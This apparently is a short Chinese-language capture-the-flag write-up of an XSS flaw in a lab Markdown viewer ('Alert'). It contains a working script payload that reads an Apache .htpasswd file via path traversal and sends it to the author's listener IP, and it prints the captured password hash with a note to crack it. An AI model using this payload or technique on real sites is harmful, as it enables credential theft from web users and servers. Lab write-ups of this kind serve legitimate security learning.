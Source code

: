 ### XSS外带文件
>写这个就想起了ccb线下赛的XSS外带cookie，虽然不是web手，但是想起来这个没做出来就很难受，害

看看网页源代码

```

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <link rel="stylesheet" href="css/style.css">
    <title>Alert - Markdown Viewer</title>
</head>
<body>
    <nav>
        <a href="index.php?page=alert">Markdown Viewer</a>
        <a href="index.php?page=contact">Contact Us</a>
        <a href="index.php?page=about">About Us</a>
        <a href="index.php?page=donate">Donate</a>
            </nav>
    <div class="container">
        <h1>Markdown Viewer</h1><div class="form-container">
            <form action="visualizer.php" method="post" enctype="multipart/form-data">
                <input type="file" name="file" accept=".md" required>
                <input type="submit" value="View Markdown">
            </form>
          </div>    </div>
    <footer>
        <p style="color: black;">© 2024 Alert. All rights reserved.</p>
    </footer>
</body>
</html>


```
发现`md`文件写的东西都会在这里显现，典型的XSS漏洞.
突然想起来服务是Apache，那么就有`.htpasswd`用来存放密码，那么我们的思路就是去外带这个文件，去得到账号的密码，伟大的grok3会给我payload的
本地先开python的http服务(ccb的那个五分钟刷新一次不应该关的啊啊啊)

```
<script>
fetch("http://alert.htb/messages.php?file=../../../../../../../var/www/statistics.alert.htb/.htpasswd")
  .then(response => response.text())
  .then(data => {
    fetch("http://10.10.16.5:80/?file_content=" + encodeURIComponent(data));
  });
</script>
```

连接输入到`Contact Us`，本地接收到`%3Cpre%3Ealbert%3A%24apr1%24bMoRBJOg%24igG8WBtQ1xYDTQdLjSWZQ%2F%0A%3C%2Fpre%3E%0A` ，后面爆破就行了
